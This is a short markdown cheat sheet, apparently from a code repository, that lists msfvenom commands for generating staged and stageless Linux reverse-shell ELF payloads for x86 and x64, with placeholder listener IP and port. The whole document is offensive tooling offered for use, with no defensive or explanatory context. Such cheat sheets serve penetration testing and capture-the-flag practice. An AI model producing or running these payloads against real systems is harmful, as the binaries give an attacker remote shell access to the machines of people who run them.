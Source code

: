 # Staged Paylods for Linux

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

```

# Stageless Payloads for Linux


```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
